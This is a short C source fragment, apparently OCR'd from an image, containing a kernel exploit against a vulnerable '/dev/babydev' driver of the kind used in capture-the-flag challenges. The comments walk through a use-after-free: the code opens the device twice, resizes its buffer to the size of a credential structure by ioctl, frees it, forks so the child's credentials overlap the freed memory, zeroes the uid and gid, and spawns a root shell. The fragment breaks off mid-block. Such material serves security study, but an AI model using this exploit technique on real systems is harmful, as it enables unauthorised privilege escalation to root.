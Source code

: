 ```C

#include <sys/wait.h>

#include <sys/stat.h>



int main()

{

// Open the device twice
	int fd1 = open("/dev/babydev", 2);

	int fd2 = open("/dev/babydev", 2);



// Modify babydev_struct.device_buf_len to sizeof(struct cred)
	ioctl(fd1, 0x10001, 0xa8);


// release fd1
	close(fd1);



// The cred space of the new process will overlap with the babydev_struct just released
	int pid = fork();

	if(pid < 0)

	{

		puts("[*] fork error!");

		exit(0);

	}



	else if(pid == 0)

	{

// Modify the uid of the cred of the new process by changing fd2, the value of gid is 0.
		char zeros[30] = {0};

		write(fd2, zeros, 28);



		if(getuid() == 0)

		{

			puts("[+] root now.");

			system("/bin/sh");

			exit(0);

```